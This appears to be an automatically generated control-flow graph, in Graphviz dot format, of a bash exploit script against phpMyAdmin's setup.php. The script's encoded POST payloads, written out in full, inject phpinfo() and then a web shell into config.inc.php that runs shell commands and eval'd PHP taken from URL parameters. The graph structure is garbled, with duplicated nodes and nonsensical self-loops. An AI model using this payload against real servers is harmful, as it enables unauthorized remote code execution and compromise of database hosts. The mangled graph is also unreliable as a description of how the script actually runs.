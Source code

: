 digraph {
0 [label="[ $# -ne 1 ] "];
0 -> 2 [label="SC,N,if,"];
2 [label="echo usage: ./$(basename $0) <phpMyAdmin_base_URL> "];
2 -> 66 [label="then,"];
66 [label="basename $0 "];
66 -> 6 [label="N,"];
6 [label="echo i.e.: ./$(basename $0) http://target.tld/phpMyAdmin/ "];
6 -> 66 [label="\n,"];
66 [label="basename $0 "];
66 -> 101 [label="N,"];
101 [label="exit "];
101 -> 12 [label="\n,"];
12 [label="which curl /dev/null "];
12 -> 82 [label="\n,fi,SC,N,if,N,!,"];
82 [label="/dev/null "];
82 -> 82
16 [label="echo sorry but you need curl for this script to work! "];
16 -> 18 [label="then,"];
18 [label="echo on Debian/Ubuntu: sudo apt-get install curl "];
18 -> 101 [label="\n,"];
101 [label="exit "];
101 -> 22 [label="\n,"];
22 [label="postdata=token=$1&action=save&configuration=a:1:{s:7:%22Servers%22%3ba:1:{i:0%3ba:6:{s:23:%22host%27]=%27%27%3b%20phpinfo%28%29%3b//%22%3bs:9:%22localhost%22%3bs:9:%22extension%22%3bs:6:%22mysqli%22%3bs:12:%22connect_type%22%3bs:3:%22tcp%22%3bs:8:%22compress%22%3bb:0%3bs:9:%22auth_type%22%3bs:6:%22config%22%3bs:4:%22user%22%3bs:4:%22root%22%3b}}}&eoltype=unix "];
22 -> 24 [label="\n,fi,N,function,SC,{,"];
24 [label="postdata2=token=$1&action=save&configuration=a:1:{s:7:%22Servers%22%3ba:1:{i:0%3ba:6:{s:136:%22host%27%5d=%27%27%3b%20if($_GET%5b%27c%27%5d){echo%20%27%3cpre%3e%27%3bsystem($_GET%5b%27c%27%5d)%3becho%20%27%3c/pre%3e%27%3b}if($_GET%5b%27p%27%5d){echo%20%27%3cpre%3e%27%3beval($_GET%5b%27p%27%5d)%3becho%20%27%3c/pre%3e%27%3b}%3b//%22%3bs:9:%22localhost%22%3bs:9:%22extension%22%3bs:6:%22mysqli%22%3bs:12:%22connect_type%22%3bs:3:%22tcp%22%3bs:8:%22compress%22%3bb:0%3bs:9:%22auth_type%22%3bs:6:%22config%22%3bs:4:%22user%22%3bs:4:%22root%22%3b}}}&eoltype=unix "];
24 -> 26 [label="N,\n,"];
26 [label="flag=/tmp/$(basename $0).$RANDOM.phpinfo.flag.html "];
26 -> 66 [label="\n,"];
66 [label="basename $0 "];
66 -> 30 [label="N,N,"];
30 [label="echo [+] attempting to inject phpinfo() ... "];
30 -> 32 [label="\n,"];
32 [label="curl -ks -b $2 -d $postdata --url $3/scripts/setup.php /dev/null "];
32 -> 82 [label="\n,"];
82 [label="/dev/null "];
82 -> 82
36 [label="curl -ks --url $3/config/config.inc.php "];
36 -> 38 [label="\n,SC,N,if,N,"];
38 [label="grep phpinfo() /dev/null "];
38 -> 82 [label="N,"];
82 [label="/dev/null "];
82 -> 82
42 [label="curl -ks --url $3/config/config.inc.php $flag "];
42 -> 44 [label="then,"];
44 [label="$flag "];
44 -> 44
46 [label="echo [+] success! phpinfo() injected successfully! output saved on $flag "];
46 -> 48 [label="\n,"];
48 [label="curl -ks -b $2 -d $postdata2 --url $3/scripts/setup.php /dev/null "];
48 -> 82 [label="\n,"];
82 [label="/dev/null "];
82 -> 82
52 [label="echo [+] you *should* now be able to remotely run shell commands and PHP code using your browser. i.e.: "];
52 -> 54 [label="\n,"];
54 [label="echo     $3/config/config.inc.php?c=ls+-l+/ "];
54 -> 56 [label="\n,"];
56 [label="echo     $3/config/config.inc.php?p=phpinfo() "];
56 -> 58 [label="\n,"];
58 [label="echo     please send any feedback/improvements for this script to unknown.pentester<AT_sign__here>gmail.com "];
58 -> 60 [label="\n,"];
60 [label="echo [+] no luck injecting to $3/config/config.inc.php :( "];
60 -> 101 [label="\n,else,"];
101 [label="exit "];
101 -> 64 [label="\n,"];
64 [label="cookiejar=/tmp/$(basename $0).$RANDOM.txt "];
64 -> 66 [label="\n,fi,\n,},"];
66 [label="basename $0 "];
66 -> 68 [label="N,N,"];
68 [label="token=`curl -ks -c $cookiejar --url \"$1/scripts/setup.php\" | grep \\\"token\\\" | head -n 1 | cut -d \\\" -f 12` "];
68 -> 68
70 [label="curl -ks -c $cookiejar --url $1/scripts/setup.php "];
70 -> 72 [label="N,N,N,"];
72 [label="grep \"token\" "];
72 -> 74 [label="N,"];
74 [label="head -n 1 "];
74 -> 76 [label="N,"];
76 [label="cut -d \" -f 12 "];
76 -> 78 [label="N,"];
78 [label="echo [+] checking if phpMyAdmin exists on URL provided ... "];
78 -> 78
80 [label="grep phpMyAdmin $cookiejar /dev/null "];
80 -> 82 [label="SC,N,if,"];
82 [label="/dev/null "];
82 -> 82
84 [label="length=`echo -n $token | wc -c` "];
84 -> 86 [label="then,"];
86 [label="echo -n $token "];
86 -> 88 [label="N,N,N,"];
88 [label="wc -c "];
88 -> 90 [label="N,"];
90 [label="[ $length -eq 32 ] "];
90 -> 92 [label="\n,SC,N,if,"];
92 [label="echo [+] phpMyAdmin cookie and form token received successfully. Good! "];
92 -> 94 [label="then,"];
94 [label="exploit $token $cookiejar $1 "];
94 -> 96 [label="\n,"];
96 [label="echo [+] could not grab form token. you might want to try exploiting the vuln manually :( "];
96 -> 101 [label="\n,else,"];
101 [label="exit "];
101 -> 100 [label="\n,"];
100 [label="echo [+] phpMyAdmin NOT found! phpMyAdmin base URL incorrectly typed? wrong case-sensitivity? "];
100 -> 101 [label="\n,fi,\n,else,"];
}
